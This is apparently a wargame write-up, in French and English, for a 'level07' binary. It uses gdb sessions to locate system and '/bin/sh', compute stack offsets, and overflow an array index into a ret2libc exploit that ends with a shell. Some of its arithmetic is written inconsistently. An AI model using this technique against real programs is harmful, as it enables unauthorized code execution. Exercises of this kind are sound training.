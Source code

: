 index overflow
pas d'utilisation possible de l'env car clear au début du code !!


### Find occurence of /bin/sh

(gdb) break main
Breakpoint 1 at 0x8048729
(gdb) r
Starting program: /home/users/level07/level07 

Breakpoint 1, 0x08048729 in main ()
(gdb) print &system  
$2 = (<text variable, no debug info> *) 0xf7e6aed0 <system>
(gdb) find &system,+9999999,"/bin/sh" 
0xf7f897ec
warning: Unable to access target memory at 0xf7fd3b74, halting search.
1 pattern found.
(gdb) 

system address : 0xf7e6aed0
bin/sh address : 0xf7f897ec

### Find EIP of main function
(gdb) b main
Note: breakpoint 1 also set at pc 0x8048729.
Breakpoint 3 at 0x8048729
(gdb) r
Starting program: /home/users/level07/level07 
Breakpoint 1, 0x08048729 in main ()
(gdb) info frame
Stack level 0, frame at 0xffffd710:
 eip = 0x8048729 in main; saved eip 0xf7e45513
 Arglist at 0xffffd708, args: 
 Locals at 0xffffd708, Previous frame's sp is 0xffffd710
 Saved registers:
  ebp at 0xffffd708, eip at 0xffffd70c
(gdb) 

=> eip address 0xffffd70c de la fonction main
0x8048741
### Find address of tab[100]

address is 0xffffcd24

```
gdb
start 
disas main 

   0x080488df <+444>:   test   %eax,%eax
   0x080488e1 <+446>:   jne    0x80488f8 <main+469>
   0x080488e3 <+448>:   lea    0x24(%esp),%eax
   0x080488e7 <+452>:   mov    %eax,(%esp)
   0x080488ea <+455>:   call   0x8048630 <store_number>
   0x080488ef <+460>:   mov    %eax,0x1b4(%esp)
   0x080488f6 <+467>:   jmp    0x8048965 <main+578>
   0x080488f8 <+469>:   lea    0x1b8(%esp),%eax
   0x080488ff <+476>:   mov    %eax,%edx
   0x08048901 <+478>:   mov    $0x8048d61,%eax
   0x08048906 <+483>:   mov    $0x4,%ecx
   0x0804890b <+488>:   mov    %edx,%esi

   b*0x080488ea
   r
   x $eax
=> 0xffffd544:     0x00000000

```

### Calculate tab index to overwrite

interval between eip and tab 0xffffd70c - 0xffffd544 = 0x9E8 = 456 / 4 = 114
On divise par 4 car index d'int donc 4 bytes

### Set sellcode to eip+8

0xf7f897ec => 4160264172

insruction : store
number : 4160264172
index : 116 (eip + 2 * 4)

### Set system address to eip

0xf7e6aed0 => 4159090384

insruction : store
number : 4159090384
index : 114

problème : 114 est divisible par 3
(UINTMAX + 1) + 456 = 456
(4294967295 + 1 + 456) / 4 = 1073741938

and then quit and we get a shell 





https://stackoverflow.com/questions/19124095/return-to-lib-c-buffer-overflow-exercise-issue